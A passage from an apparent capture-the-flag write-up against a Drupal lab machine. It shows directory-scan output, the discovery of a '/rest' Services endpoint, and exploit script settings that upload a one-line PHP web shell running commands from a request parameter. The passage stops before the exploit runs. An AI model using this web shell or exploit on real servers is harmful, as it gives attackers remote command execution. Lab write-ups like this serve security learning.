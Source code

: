     [11:49:14] 200 -   18KB - /install.txt
    [11:49:15] 200 -   18KB - /INSTALL.TXT
    [11:49:27] 200 -    3KB - /install.php
    [11:50:50] 200 -   18KB - /LICENSE.txt
    [11:50:50] 200 -   18KB - /license.txt
    [11:50:50] 200 -   18KB - /License.txt
    [11:52:47] 200 -    9KB - /MAINTAINERS.txt
    [11:54:06] 301 -  146B  - /misc  ->  http://10.10.10.9/misc/
    [11:54:23] 301 -  149B  - /modules  ->  http://10.10.10.9/modules/
    [11:56:18] 200 -    7KB - /node
    [12:01:11] 301 -  150B  - /profiles  ->  http://10.10.10.9/profiles/
    [12:01:57] 200 -    5KB - /README.txt
    [12:01:57] 200 -    5KB - /Readme.txt
    [12:01:57] 200 -    5KB - /readme.txt
    [12:02:32] 200 -    2KB - /robots.txt
    [12:02:37] 200 -   62B  - /rest/
    [12:03:08] 301 -  149B  - /scripts  ->  http://10.10.10.9/scripts/
    [12:03:08] 301 -  149B  - /Scripts  ->  http://10.10.10.9/Scripts/
    [12:05:43] 301 -  147B  - /sites  ->  http://10.10.10.9/sites/
    [12:10:34] 301 -  148B  - /themes  ->  http://10.10.10.9/themes/
    [12:12:16] 200 -   10KB - /UPGRADE.txt
    [12:12:58] 200 -    7KB - /user
    [12:13:01] 200 -    7KB - /user/
    [12:13:07] 200 -    7KB - /user/login/
    [12:16:25] 200 -   42B  - /xmlrpc.php
    
    Task Completed
    

I’ll see the `/rest` is a valid path. When I check it out, it gives me the
endpoint:

    
    
    root@kali# curl http://10.10.10.9/rest
    Services Endpoint "rest_endpoint" has been setup successfully.
    

I’ll update the script:

    
    
    $url = 'http://10.10.10.9';
    $endpoint_path = '/rest';
    $endpoint = 'rest_endpoint';
    
    $file = [
        'filename' => '0xdf.php',
        'data' => '<?php system($_REQUEST["cmd"]); ?>'
    ];
    

#### Execution

Before I run it, I will need to make sure php-curl is installed: `apt install
php-curl `

I also need to fix a couple places where comments seem to have wrapped onto
the next line. Once I get all that, I can run it:
